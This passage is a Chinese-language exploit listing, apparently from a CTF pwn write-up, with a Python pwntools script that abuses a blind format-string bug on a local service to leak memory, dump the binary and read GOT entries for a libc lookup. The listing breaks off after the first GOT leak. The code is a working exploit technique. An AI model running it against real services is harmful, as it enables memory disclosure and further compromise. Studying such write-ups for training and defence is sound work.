 #### 利用程序

程序如下。

```python
##coding=utf8
import math
from pwn import *
from LibcSearcher import LibcSearcher
##context.log_level = 'debug'
context.arch = 'amd64'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 说明有\n，出现新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None


def getbinary():
    addr = 0x400000
    f = open('binary', 'w')
    while addr < 0x401000:
        data = leak(addr)
        if data is None:
            f.write('\xff')
            addr += 1
        elif len(data) == 0:
            f.write('\x00')
            addr += 1
        else:
            f.write(data)
            addr += len(data)
    f.close()


##getbinary()
read_got = 0x601020
printf_got = 0x601018
sh = remote(ip, port)
## let the read get resolved
sh.sendline('a')
sh.recv()
## get printf addr
payload = '%00008$s' + 'STARTEND' + p64(read_got)
sh.sendline(payload)
data = sh.recvuntil('STARTEND', drop=True).ljust(8, '\x00')
```